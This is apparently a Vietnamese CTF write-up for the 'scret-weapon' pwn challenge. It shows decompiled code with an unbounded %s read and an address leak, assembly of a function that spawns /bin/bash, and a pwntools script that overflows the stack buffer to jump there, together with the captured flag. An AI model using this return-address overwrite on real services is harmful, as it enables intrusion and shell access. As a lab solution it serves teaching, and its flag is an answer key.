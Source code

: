 # scret-weapon
## Đề bài
```c
int __usercall townsquare@<eax>(int a1@<ebp>)
{
  int v2; // [esp-1Ch] [ebp-1Ch]
  int v3; // [esp-4h] [ebp-4h]

  __asm { endbr32 }
  v3 = a1;
  sub_10D0("You wanna open the arsenal. Tell me the passphrase!");
  sub_10C0("Your current location is townsquare with the address %p \n", townsquare);
  return sub_1100("%s", &v2);
}
```

```asm
.text:000012D6                 public arsenal
.text:000012D6 arsenal         proc near
.text:000012D6 ; __unwind {
.text:000012D6                 endbr32
.text:000012DA                 push    ebp
.text:000012DB                 mov     ebp, esp
.text:000012DD                 sub     esp, 8
.text:000012E0                 call    __x86_get_pc_thunk_ax
.text:000012E5                 add     eax, 2CD7h
.text:000012EA                 sub     esp, 0Ch
.text:000012ED                 lea     eax, (aBinBash - 3FBCh)[eax] ; "/bin/bash"
.text:000012F3                 push    eax
.text:000012F4                 call    run_cmd
.text:000012F9                 add     esp, 10h
.text:000012FC                 nop
.text:000012FD                 leave
.text:000012FE                 retn
.text:000012FE ; } // starts at 12D6
.text:000012FE arsenal         endp
```
- Dễ thấy, khi thực thi hàm `townsquare` thì chương trình in ra địa chỉ của hàm `townsquare`, dựa vào đó ta có thể tính ra được địa chỉ của hàm `arsenal` để lấy flag

## script
```python3
from pwn import *
import struct

r = remote('61.28.237.24', 30201)

print(r.recvuntil('townsquare with the address '))
address = r.recvline()
address = int(address.rstrip(b' \n').lstrip(b'0x'), 16)
address -= 41
address = struct.pack("<I", address)
r.sendline(b'a' * 28 + address)
r.interactive()
```

Flag: HCMUS-CTF{you_know_how_to_compute_location}